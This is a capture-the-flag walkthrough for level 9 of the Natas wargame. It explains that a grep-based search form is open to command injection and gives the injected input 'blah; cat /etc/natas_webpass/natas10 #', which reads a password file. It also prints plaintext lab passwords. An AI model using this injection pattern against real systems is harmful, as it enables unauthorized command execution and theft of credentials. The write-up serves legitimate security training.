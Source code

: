 __Natas :: Level 9__
================


_Patrick Ledzian_ | _Monday, December 21st, 2015_ 


> There is no information for this level, intentionally.


----------


Start by using a web browser to navigate to the website `http://natas9.natas.labs.overthewire.org/`

```
Login: natas9

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl 

```

Once again we are supplied with an input box and source code

![Image Broke](edit1.png)

By examining the source code it becomes apparent that the input is not sanitized 
and is open to a [command injection] (read about this, these are common)

Look at the source code, `$key` is where your commands will be inserted

submit the command `blah; cat /etc/natas_webpass/natas10 #`

`blah;` ends the grep call

Remember from earlier problems `/etc/natas_webpass/natas10` is where passwords are stored on this site

Lastly, `#` comments out the dicitonary.txt

natas10: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu


[command injection]: https://www.owasp.org/index.php/Command_Injection




